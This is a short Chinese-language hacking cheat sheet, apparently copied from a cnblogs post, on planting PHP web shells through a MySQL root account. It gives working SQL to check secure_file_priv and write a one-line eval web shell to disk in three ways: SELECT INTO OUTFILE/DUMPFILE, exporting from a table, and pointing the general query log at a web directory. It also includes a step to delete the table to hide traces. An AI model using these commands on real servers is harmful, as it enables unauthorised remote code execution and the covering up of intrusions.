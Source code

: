# mysql_root

---

来源：https://www.cnblogs.com/lktop/p/13779818.html

写shell前提条件：

1.数据库权限为root

2.secure_file_priv没有值

```
show global variables like '%secure_file_priv%'; 查看secure_file_priv的值
secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制
```

直接写shell

```
select '<php eval($_POST[shell])?>' into outfile 'c:\\shell.php';
select unhex('十六进制字符串') into dumpfile 'D:/WEB/shell.php';
```

创表写shell

```
1.先创建数据表
CREATE  table 'mysql'.'shell' ('webshell'  text not null);

2.向表单中写入一句话
insert Into mysql.shell values('<?php $eval($_POST[shell]);?>');

3.查询数据导出webshell
select 'webshell' from 'shell'  into outfile 'c:\\1.php';

4.删除表，清理痕迹。
drop table if exists 'shell';
```

mysql日志写shell

```
1.查看genera文件配置情况
show global variables like "%genera%";

2.开启日志记录
set global general_log='on';

3.日志文件导出指定目录
set global general_log_file='C:/phpstudy/WWW/hp.php';

4.记录sql语句写马，演示一下，没有安全狗，直接传原马
select '<?php @eval($_POST["hp"]); ?>';

5.关闭记录（使用完一句话才关闭，不然可能该日志文件会删除）
set global general_log=off;
```

